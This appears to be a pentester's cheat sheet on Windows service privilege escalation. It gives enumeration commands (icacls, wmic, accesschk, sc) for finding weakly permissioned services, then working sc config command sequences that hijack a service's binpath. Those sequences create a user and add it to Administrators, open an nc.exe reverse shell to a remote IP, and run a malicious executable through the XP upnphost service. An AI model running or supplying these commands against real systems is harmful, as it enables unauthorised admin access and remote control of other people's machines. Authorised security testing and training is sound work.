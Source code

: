 # Vulnerable services

## Enumeration

### Icacls

```
icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
```

### wmic

* Requires authorization to use wmic
* On windows XP replace icacls with cacls

```
FOR /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> .\permissions.txt
FOR /f eol^=^"^ delims^=^" %a in (.\permissions.txt) do cmd.exe /c icacls "%a"
```

#### Service name from exe

```
wmic service where "PathName like '%httpd%'" get Name,DisplayName
```

#### exe path from service name

```
wmic service where "Name like '%<name>%' or DisplayName like '%<name>%'" get PathName
```

### accesschk.exe

* Obtain from (newer versions lack the /accepteula option): [here ](https://xor.cat/assets/other/Accesschk.zip)or [here](https://web.archive.org/web/20071007120748if\_/http://download.sysinternals.com/Files/Accesschk.zip)

```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
```

### sc.exe

```
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

## Exploitation

### PrivEsc

#### Add user

```
sc qc <service>
sc config <service> binpath= "net user <username> <password> /add" depend= "" obj= ".\LocalSystem" password= ""
sc stop <service>
sc start <service>
sc config <service> binpath= "net localgroup Administrators <username> /add" depend= "" obj= ".\LocalSystem" password= ""
sc stop <service>
sc start <service>
```

#### Send reverse shell

```
sc config <service> binpath= "<path to nc.exe> <ip> <port> -e C:\WINDOWS\System32\cmd.exe" depend= "" obj= ".\LocalSystem" password= ""
sc stop <service>
sc start <service>
```

### Windows XP - upnp service

```
sc config upnphost binpath= "<path to malicious executable>"
sc config upnphost depend= ""
sc config upnphost obj= ".\LocalSystem"
sc config upnphost password= ""
net start upnphost
```

